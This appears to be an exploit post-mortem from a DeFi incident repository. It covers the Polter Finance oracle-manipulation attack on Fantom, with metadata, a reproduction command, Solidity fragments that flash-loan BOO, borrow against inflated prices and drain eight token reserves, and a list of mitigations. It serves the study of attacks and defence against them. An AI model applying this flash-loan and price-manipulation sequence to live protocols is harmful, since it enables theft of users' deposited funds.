 ```yaml
---
title: Polter Finance
description: Breaking lending protocols through manipulated oracle price feeds
type: Exploit
network: [Fantom]
date: 2024-11-16
loss_usd: 8700000
returned_usd: 0
tags: [business logic, price manipulation]
subcategory: []
vulnerable_contracts:
  - "0x867fAa51b3A437B4E2e699945590Ef4f2be2a6d5"
tokens_lost:
  - WFT
  - BOO
  - WSOL
  - WBTC
  - WETH
  - MIM
  - USDC
  - sFTMX
  - axlUSDC
attacker_addresses:
  - "0x511f427Cdf0c4e463655856db382E05D79Ac44a6"
malicious_token: []
attack_block: [97508838]
reproduction_command: forge test --match-contract Exploit_Polter_Finance -vvv
attack_txs:
  - "0x5118df23e81603a64c7676dd6b6e4f76a57e4267e67507d34b0b26dd9ee10eac"
sources:
  - title: 0xNickLFranklin tweet
    url: https://x.com/0xNickLFranklin/status/1858402633935126969
  - title: Bcpaintball26 tweet
    url: https://x.com/Bcpaintball26/status/1857865758551805976
---
```


## Step-by-step Overview

The Polter Finance protocol's critical vulnerability stemmed from trusting SpookySwap V2/V3 pool prices for their BOO token oracle. This meant the protocol's lending decisions were based on potentially manipulatable price feeds from DEX pools, which the attacker exploited through flash loans. The vulnerability manifested in `ILendingPool.borrow()` function where borrowing power was calculated using these manipulated prices.

Here's how the attacker leveraged this vulnerability:

1. Setup (Get Initial Flash Loan)

   - Flash loan BOO tokens from SpookySwap V3 pool
   - Prepare for subsequent operations with obtained liquidity

2. Additional Liquidity (V2 Flash Swap)

   - Perform V2 flash swap to get additional BOO tokens
   - This provides more tokens for the attack setup

3. Collateral Setup

   - Deposit minimal collateral (1e18 BOO) into Polter Finance

4. Exploit Execution

   - Systematically drain multiple token reserves through uncollateralized borrowing
   - Target high-value tokens in sequence
   - Transfer stolen assets to attacker address

5. Flash Loan Repayment
   - Swap 5000 WFTM back to BOO tokens
   - Repay flash loan obligations
   - Keep remaining stolen assets as profit

## Detailed Description

1. Gets BOO tokens through SpookySwap V3 flash loan to initiate the attack:

```solidity
// Initial flash loan from V3 pool
pairWftmBooV3.flash(address(this), 0, BOO.balanceOf(address(pairWftmBooV3)), "");

// Flash callback handling
function uniswapV3FlashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external {
    uint256 repay = BOO.balanceOf(address(this)) + fee1;
    // Further attack steps...
}
```

2. Leverages V2 flash swap to obtain more BOO tokens:

```solidity
pairWftmBooV2.swap(0, BOO.balanceOf(address(pairWftmBooV2)) - 1e3, address(this), "0");

// V2 callback implementation
function uniswapV2Call(address sender, uint256 amount0, uint256 amount1, bytes calldata data) external {
    BOO.approve(address(Lending), 1e18);
    // Initialize exploit sequence...
}
```

3. Sets up minimal collateral and exploits borrowing mechanism:

```solidity
unction exploitToken(IERC20 token) public {
    // Get reserve data for target token
    ILendingPool.ReserveData memory reserveData = Lending.getReserveData(address(token));
    // Execute uncollateralized borrow
    Lending.borrow(address(token), token.balanceOf(reserveData.aTokenAddress), 2, 0, address(this));
    // Transfer stolen tokens
    token.transfer(address(this), token.balanceOf(address(this)));
}

```

4. Systematically drains multiple token reserves:

```solidity
// Execute exploit across multiple tokens
exploitToken(WFTM);
exploitToken(MIM);
exploitToken(sFTMX);
exploitToken(axlUSDC);
exploitToken(WBTC);
exploitToken(WETH);
exploitToken(USDC);
exploitToken(WSOL);
```

5. Repays flash loans and finalizes profit

```solidity
function swapWftmToBoo(uint256 _amountOut) internal {
    address[] memory path = new address[](2);
    path[0] = address(WFTM);
    path[1] = address(BOO);
    Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
        _amountOut, 0, path, address(this), block.timestamp + 3600
    );
}

```

## Possible mitigations

1. Implement decentralized oracles with multi-source price feeds to prevent price manipulation.
2. Use TWAP oracles to protect against flash loan attacks and price volatility.

